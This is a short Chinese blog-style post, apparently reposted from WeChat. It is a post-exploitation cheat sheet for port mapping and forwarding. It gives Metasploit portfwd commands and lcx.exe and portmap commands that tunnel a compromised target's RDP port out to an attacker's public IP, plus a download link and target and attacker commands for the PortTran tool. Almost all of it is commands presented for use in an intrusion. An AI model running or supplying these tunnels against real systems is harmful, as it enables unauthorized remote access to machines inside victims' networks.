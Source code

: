 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/BosStSgpWMIGCGnBnc7FLA)

![](https://mmbiz.qpic.cn/mmbiz_gif/GfOvuXUmaIichKN4fuyBV856xHdsnuRTeChfYItiaiaP6C5QQibXh56dmwWiaMFia2yE01nib45cPuiaib6kMd5OT95aeeA/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1 "15254461546.gif")**端口映射&转发**  

### **MSF**

  

```
使用条件：服务器通外网，拥有自己的公网ip
>portfwd add -l 5555 -p 3389 -r 172.16.86.153
转发目标主机的3389远程桌面服务端口到本地的5555
>portfwd list

```

  

  

### **lcx.exe**

  

```
使用条件：服务器通外网，拥有自己的公网ip
靶机：lcx.exe -slave 外网IP 9999 127.0.0.1 3389
linux攻击机：./portmap -m 2 -p1 9999 -p2 33889
windows攻击机：lcx -listen 9999 33889 把本机9999监听的信息转到33889
PortTran
https://github.com/k8gege/K8tools/raw/master/PortTran.rar
攻击机执行
>PortTranS20.exe 12345 389

```

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7dJfmevE1MuicKGpJFxqmM1yOnyrQL0PcZy55ksWzblFcM6MmydekGE4XlR69jTCQakNGibgziaOawxg/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

```
靶机执行

```

  

```
\>PortTranC20.exe 127.0.0.1 3389 192.168.0.102 12345
建立连接后，攻击机连接本机389端口即可

```

  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
